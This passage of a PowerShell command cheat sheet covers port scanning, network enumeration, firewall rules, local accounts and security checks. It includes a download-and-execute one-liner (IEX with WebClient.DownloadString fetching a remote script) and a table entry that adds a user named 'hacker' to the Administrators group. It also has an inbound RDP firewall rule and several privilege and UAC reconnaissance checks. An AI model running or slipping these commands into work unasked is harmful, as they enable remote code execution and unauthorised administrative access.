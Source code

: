 ```powershell
$ports | ForEach-Object -Parallel {
    if (Test-NetConnection -ComputerName $using:target -Port $_ -InformationLevel Quiet) {
        "Port $_ is open on $using:target"
    }
} -ThrottleLimit 50

# Get network adapters
Get-NetAdapter | Where-Object {$_.Status -eq "Up"}

# Show routing table
Get-NetRoute

# DNS lookup
Resolve-DnsName google.com -Type A

# Get ARP table
Get-NetNeighbor

# Download and execute (be careful!)
IEX (New-Object Net.WebClient).DownloadString('http://example.com/script.ps1')
```

---

## 🔒 Security & Administration

| Command | Description |
|---------|-------------|
| `Get-NetFirewallRule \| Format-Table Name,Enabled` | List firewall rules |
| `New-NetFirewallRule -DisplayName "Allow RDP" -Direction Inbound -Protocol TCP -LocalPort 3389 -Action Allow` | Create firewall rule |
| `Get-LocalUser` | List local user accounts |
| `Add-LocalGroupMember -Group "Administrators" -Member "hacker"` | Add user to admin group |
| `Get-WinEvent -LogName Security -MaxEvents 50` | View security event logs |

### Advanced Security Operations
```powershell
# Check user privileges
whoami /priv

# List local groups
Get-LocalGroup

# Get group members
Get-LocalGroupMember -Group "Administrators"

# Check password policy
Get-ADDefaultDomainPasswordPolicy

# View failed login attempts
Get-WinEvent -LogName Security | Where-Object {$_.Id -eq 4625} | Select-Object -First 10

# Check for null sessions
Get-WmiObject -Class Win32_Share

# List scheduled tasks
Get-ScheduledTask | Where-Object {$_.State -eq "Ready"}

# Check UAC status
Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name EnableLUA

```